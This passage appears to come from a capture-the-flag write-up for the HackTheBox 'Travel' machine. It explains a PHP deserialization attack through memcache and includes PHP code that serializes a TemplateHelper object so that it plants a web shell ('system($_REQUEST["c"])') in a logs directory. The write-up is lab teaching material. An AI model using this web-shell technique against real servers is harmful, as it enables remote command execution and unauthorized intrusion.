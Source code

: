 ![image-20200519214505327](/assets/images/htb-writeup-travel/image-20200519214505327.png)

Good, so the key matches what we saw earlier. We'll need to use `xct_0375e1e45d8573844bcfb43ffe0ca90a` instead of the default value provided by Gopherus after we do the next part: serializing a payload that'll let us write a PHP command shell.

## PHP deserialization attack

As we saw in the source code and from the memcache dump, the content of the XML file gets converted to a PHP object, serialized then stored into the memcache database if the cache entry doesn't exist or has expired. When the next user visits the page to view the content, the values are pulled from the memcache and the object is deserialized. This is where we come in, we'll use the **TemplateHelper** class to write a PHP command shell into the **logs** directory.

We copy the class to another PHP file and add a line that creates the object, passing the filename and content as parameters then echo the output so we can use with Gopherus.

Note: It is also important to change the $file and $data variables to private otherwise they won't be included in the output. 

```php
<?php

class TemplateHelper
{

    private $file;
    private $data;

    public function __construct(string $file, string $data)
    {
        $this->init($file, $data);
    }

    public function __wakeup()
    {
        $this->init($this->file, $this->data);
    }

    private function init(string $file, string $data)
    {        
        $this->file = $file;
        $this->data = $data;
        file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
    }
}

###
### The part below has been added
###
$user = new TemplateHelper('snow.php', '<?php system($_REQUEST["c"]); ?>');
echo serialize($user);

?>
```
